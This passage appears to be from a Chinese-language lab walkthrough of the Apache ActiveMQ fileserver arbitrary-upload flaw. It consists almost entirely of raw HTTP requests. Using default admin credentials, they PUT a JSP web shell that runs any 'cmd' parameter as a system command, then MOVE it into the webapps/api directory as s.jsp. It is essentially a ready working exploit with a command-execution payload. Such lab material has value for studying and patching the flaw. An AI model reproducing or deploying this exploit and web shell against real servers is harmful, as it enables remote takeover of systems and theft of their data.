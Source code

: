 修改为下面的内容 （这里需要先登入后台）

```cobol
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.31.131:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 13 Feb 2015 18:05:11 GMT
 
<%@ page import="java.io.*"%>
<%
 out.print("Hello</br>");
 String strcmd=request.getParameter("cmd");
 String line=null;
 Process p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
 
 while((line=br.readLine())!=null){
  out.print(line+"</br>");
 }
```

```cobol
HTTP/1.1 204 No Content
Connection: close
Server: Jetty(8.1.16.v20140903)
```

上传成功 但是去访问是没有的 我们通过move的协议 将他移动到 api下

```cobol
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: 192.168.31.131:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 13 Feb 2015 18:05:11 GMT
Content-Length: 328
 
<%@ page import="java.io.*"%>
<%
 out.print("Hello</br>");
 String strcmd=request.getParameter("cmd");
 String line=null;
 Process p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
 out.print(line+"</br>");
 }
%>
```
